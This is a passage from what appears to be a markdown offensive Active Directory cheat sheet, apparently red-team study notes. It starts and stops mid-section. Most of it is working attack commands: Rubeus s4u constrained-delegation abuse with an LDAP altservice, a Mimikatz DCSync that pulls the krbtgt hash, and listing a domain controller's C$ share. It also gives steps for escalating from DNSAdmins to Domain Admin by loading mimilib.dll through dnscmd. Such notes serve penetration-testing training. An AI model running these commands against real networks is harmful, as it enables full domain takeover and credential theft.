 ```console
klist
```

### <span style="color:#F1C232">3. We can access the file system</span>

```powershell
ls \\dc-name-here\C$
```

## <span style="color:lightgreen">Using Rubeus.exe - Computers</span>

### <span style="color:#F1C232">1. abuse delegation of computerX$ using Rubeus (Note: use the /altservice parameter to include LDAP for DCSync attack)</span>

```powershell
.\Rubeus.exe s4u /user:comuterX$ /rc4:rc4-hash-here /impersonateuser:Administrator /msdsspn:"service-name-here" /altservice:ldap /ptt
```

### <span style="color:#F1C232">2. Run the DCSync attack</span>

```powershell
. .\Invoke-Mimikatz.ps1
Invoke-Mimikatz -Command '"lsadump::dcsync /user:dcorp\krbtgt"'
```

# <span style="color:lightblue">DNS Admins</span>

* It is possible for the members of the DNSAdmins group to load arbitrary DLL with the privileges of dns.exe (SYSTEM).
* In case the DC also serves as DNS, this will provide us escalation to DA. Need privileges to restart the DNS service.

## <span style="color:lightgreen">Methodology/Steps</span>
 
- [x] 1. List all the DNS admins members
- [x] 2. Get a powershell session as that user using "Over pass the hash" since we shall already have the hash
- [x] 3. Load **mimilib.dll** using dnscmd
- [x] 4. Restart the dns of the DC
- [x] 5. Now all the DNS queries get stored at **C:\Windows\System32\kiwidns.log**

## <span style="color:lightgreen">RSAT DNS</span>

### <span style="color:#F1C232">1. From the privileges of DNSAdmins group member, configure DLL using dnscmd.exe</span>
 